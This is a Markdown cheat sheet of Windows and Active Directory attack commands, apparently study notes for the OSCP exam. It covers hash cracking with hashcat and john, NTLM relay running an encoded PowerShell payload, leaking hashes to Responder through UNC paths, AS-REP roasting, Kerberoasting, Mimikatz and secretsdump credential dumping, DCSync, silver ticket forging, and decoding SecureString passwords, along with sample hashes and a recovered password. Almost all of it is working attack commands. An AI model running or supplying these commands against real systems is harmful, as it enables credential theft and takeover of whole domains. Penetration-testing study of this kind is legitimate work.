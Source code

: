 
## Get&Crack hashes

### NTLM (=rc4_hmac)

```bash
hashcat -m 1000 hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force

hashcat -m 1000 hash /usr/share/wordlists/rockyou.txt --force

john hash -w=/usr/share/wordlists/rockyou.txt
```
>[!info] 
>https://ntlm.pw/

### Net-NTLMv2

```bash
hashcat -m 5600 hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force

hashcat -m 5600 hash /usr/share/wordlists/rockyou.txt --force

john hash -w=/usr/share/wordlists/rockyou.txt
```

Relay attack:
```bash
sudo impacket-ntlmrelayx --no-http-server -smb2support -t <target-ip> -c "powershell -enc JABjAGwAaQBlAG4AdA..."
```
>[!info]
>Other commands than reverse shells possible (e.g. DB enumeration [link](https://arz101.medium.com/vulnlab-reflection-42d86fcee222))

**Leak hashes:**

Start responder:
```bash
sudo responder -I tun0 -A # analyze mode
```

Use one of the following commands to leak NTLM hashes to responder:
```bash
SMB: \\<Kali-IP>\test
MSSQL: xp_dirtree \\<Kali-IP>\test

Website: (SSRF & RFI & LFI)
\\<Kali-IP>\test
//<Kali-IP>/test
http://<Kali-IP>/test
```

### Other

AS-REP roasting:
```bash
# On Kali
impacket-GetNPUsers -dc-ip <IP> -outputfile hash -request <domain>/<user>

# User list but no creds?
impacket-GetNPUsers <domain>/ -usersfile users.txt  -dc-ip <IP> -request

# On Windows
.\Rubeus.exe asreproast /nowrap
```
>[!Reminder]
>No creds no problem!

```bash
# Crack the hash
sudo hashcat -m 18200 hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force

sudo hashcat -m 18200 hash /usr/share/wordlists/rockyou.txt --force

john hash -w=/usr/share/wordlists/rockyou.txt
```

Kerberoasting:
```bash
# On Kali
impacket-GetUserSPNs -request -dc-ip <IP> <domain>/<user>

# On Windows
.\Rubeus.exe kerberoast /outfile:hash
```

```bash
# Crack the hash
sudo hashcat -m 13100 hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force

sudo hashcat -m 13100 hash /usr/share/wordlists/rockyou.txt --force

john hash -w=/usr/share/wordlists/rockyou.txt
```

### Post compromise

Mimikatz:
```bash
mimikatz.exe
privilege::debug
token::elevate

sekurlsa::logonpasswords
lsadump::sam
lsadump::sam /inject
lsadump::lsa /inject
sekurlsa::tickets /export
# Use ticket to access webserver: iwr -UseDefaultCredentials http://web04

# DCSync
lsadump::dcsync /user:<domain>\Administrator # dcsync attack
lsadump::dcsync /user:Administrator
```

Windows Credential Guard:
- **Potentially out of scope for OSCP**
```bash
mimikatz.exe
privilege::debug
token::elevate

sekurlsa::logonpasswords # Locate encrypted blob

misc::memssp # Wait for authentication

# Check log file
type C:\Windows\System32\mimilsa.log
```

Secretsdump:
```bash
sudo impacket-secretsdump <domain>/<USER>:<PASS>@<IP>

# Dump NTDS.dit
sudo impacket-secretsdump -ntds ntds.dit -system SYSTEM -hashes lmhash:nthash LOCAL -outputfile ntlm-hashes
```
>[!info]
>**RUN SECRETSDUMP WITH SUDO !!!**

laZagne:
```bash
.\laZagne.exe all
```

DCSync
```bash
# On Windows using Mimikatz
.\mimikatz.exe
token::elevate
privilege::debug
lsadump::dcsync /user:<domain>\Administrator

# On Kali using secretsdump
impacket-secretsdump -just-dc-user <USER> <domain>/Administrator:"<PASS>"@<IP>
```

**Windows privilege escalation and enumeration:**
- [[Windows]]

---


## Silver ticket attack

Requires:
- Domain SID
- User NTLM hash (Plaintext password can be converted to NTLM hash: [link](https://codebeautify.org/ntlm-hash-generator))
- User SPN (e.g. **svc_mssql**)

Examples:
- SQL: [link](https://medium.com/@The_Hiker/breach-vulnlab-walkthrough-thehiker-86dcab8b619f)
- Web: [link](https://arz101.medium.com/vulnlab-lustrous-12e94513dbdf)

**On Kali**
```bash
# Grab domain SID:
impacket-lookupsid <domain>/<user>:<pass>@<IP>

# Impersonate administrator
impacket-ticketer -nthash '<NTLM>' -domain-sid '<domain-SID>' -domain <domain> -spn '<SPN>' -user-id 500 Administrator
# Get the -spn output from impacket-GetUserSPNs under "ServicePrincipleName"

# Export the ticket
export KRB5CCNAME=Administrator.ccache

# Modify hosts file
cat /etc/hosts
<IP> <domain>

# Use the ticket to access the MSSQL server (use domain specified in impacket-ticketer request)
impacket-mssqlclient -k -no-pass <domain> -windows-auth
impacket-mssqlclient -k -no-pass <username>@<domain>
impacket-mssqlclient -k <domain> # Same domain as used in impacket-ticketer
```

Perform secretsdump using the ticket:
```bash
impacket-secretsdump -k <domain> -just-dc-user Administrator
```
>[!info]
>Make sure to use the FQDN that was used to create the ticket


**On Windows**

Retrieve SPN password hash using Mimikatz: (thanks to iis_service session)
```
privilege::debug
sekurlsa::logonpasswords
```
>[!info]
>`4d28cf5252d39971419580a51484ca09`

Obtain the Domain SID (works since current user is in same domain):
```
whoami /user
```
>[!info]
>`S1-5-21-1987370270-658905905-1781884369` (remove last 4 digits)

Obtain Silver ticket:
```
kerberos::golden /sid:<domain-sid> /domain:<domain> /ptt /target:web04.corp.com /service:http /rc4:<NTLM> /user:jeffadmin
```
>[!info]
>Target is FQDN

Access webpage on the WEB04 machine:
```
iwr -UseDefaultCredentials http://web04
```

Perform secretsdump using the ticket:
```bash
impacket-secretsdump -k <domain> -just-dc-user Administrator
```
>[!info]
>Make sure to use the FQDN that was used to create the ticket

---


## Decode SecureString object:

https://stackoverflow.com/questions/49437141/converting-securestring-stored-in-text-file-back-to-readable-string
```bash
echo "01000000d08c9ddf0115d1118c7a00c04fc297eb0100000001e86ea0aa8c1e44ab231fbc46887c3a0000000002000000000003660000c000000010000000fc73b7bdae90b8b2526ada95774376ea0000000004800000a000000010000000b7a07aa1e5dc859485070026f64dc7a720000000b428e697d96a87698d170c47cd2fc676bdbd639d2503f9b8c46dfc3df4863a4314000000800204e38291e91f37bd84a3ddb0d6f97f9eea2b" > pass.txt

$password = Get-Content pass.txt | ConvertTo-SecureString 

$bstr = [System.Runtime.InteropServices.Marshal]::SecureStringToBSTR($password) 

$UnsecurePassword = [System.Runtime.InteropServices.Marshal]::PtrToStringAuto($bstr) 

$UnsecurePassword

hHO_S9gff7ehXw
```
- Example: [[nara]]

Alternative solution:
```powershell
$user = "Administrator"  
$pass = "01000000d08c9ddf0115d1118c7a00c04fc297eb01000000d4ecf9dfb12aed4eab72b909047c4e560000000002000000000003660000c000000010000000d5ad4244981a04676e2b522e24a5e8000000000004800000a00000001000000072cd97a471d9d6379c6d8563145c9c0e48000000f31b15696fdcdfdedc9d50e1f4b83dda7f36bde64dcfb8dfe8e6d4ec059cfc3cc87fa7d7898bf28cb02352514f31ed2fb44ec44b40ef196b143cfb28ac7eff5f85c131798cb77da914000000e43aa04d2437278439a9f7f4b812ad3776345367" | ConvertTo-SecureString  
cred = New-Object System.Management.Automation.PSCredential($user, $pass)  
$cred.GetNetworkCredential() | Format-List
```